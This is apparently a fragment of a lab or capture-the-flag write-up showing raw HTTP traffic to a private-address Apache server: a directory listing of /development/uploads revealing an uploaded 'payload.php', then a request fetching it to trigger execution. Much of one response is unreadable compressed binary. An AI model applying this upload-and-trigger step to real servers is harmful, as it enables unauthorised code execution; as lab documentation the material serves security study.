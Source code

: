 ```http
GET /development/uploads/ HTTP/1.1
...
```

```http
HTTP/1.1 200 OK
Date: Tue, 21 Jul 2020 20:34:05 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 472
Keep-Alive: timeout=5, max=99
Connection: Keep-Alive
Content-Type: text/html;charset=UTF-8

_oÚ0Åßû)îü0mÄIè¿¬'F¨D!*TÓ4íÁ
±ìÈ1lìÓ×!LM'X·§ØÊïsíKÞ$³áâk:Ï»	¤&ã! Æ_úCEÒþè{!ÜJÅJGSDÏHa×%=RÆÝ¶t¬¸ø	z	(uµÊâMUjÆk[ÈáCÉ4ß5rÁk¥ØÃ²½B³4Ø¶¬+#«+D\¯ 6y°ÌµªqV2õèä+m¾³ïÃ¶hª)aP±ÑÇa<½Å	¢S¶³ãÌcNXma¹\JÁOÂóË_§IDYY©Õ3]ÄnÔ\uÅ\Ö 0]ªEøkÝ`ùf¤ûÑtïÛðFâÙÝ@4eÆ- FäVÝÁg[ôVeuuó{F®
(@ÿa}£þ¡ºî]gú®Ø®y4^U8¡Î¦kø¡ú=ÿªúúç§¢DÑ_¢üã]áÃ+&s#ê*Þ¹Fðî!Û(»ysa¶Â³D¡\^{Áï¤ÚX¸ö]¢Ýýd>EÙ
```

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
  <title>Index of /development/uploads</title>
 </head>
 <body>
<h1>Index of /development/uploads</h1>
  <table>
   <tr><th valign="top"><img src="/icons/blank.gif" alt="[ICO]"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
   <tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"><img src="/icons/back.gif" alt="[PARENTDIR]"></td><td><a href="/development/">Parent Directory</a></td><td>&nbsp;</td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"><img src="/icons/unknown.gif" alt="[   ]"></td><td><a href="payload.php">payload.php</a></td><td align="right">2020-07-21 20:34  </td><td align="right"> 99 </td><td>&nbsp;</td></tr>
   <tr><th colspan="5"><hr></th></tr>
</table>
<address>Apache/2.4.29 (Ubuntu) Server at 192.168.170.159 Port 80</address>
</body></html>
```

```http
GET /development/uploads/payload.php HTTP/1.1
Host: 192.168.170.159
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.170.159/development/uploads/
Connection: keep-alive
Upgrade-Insecure-Requests: 1


```
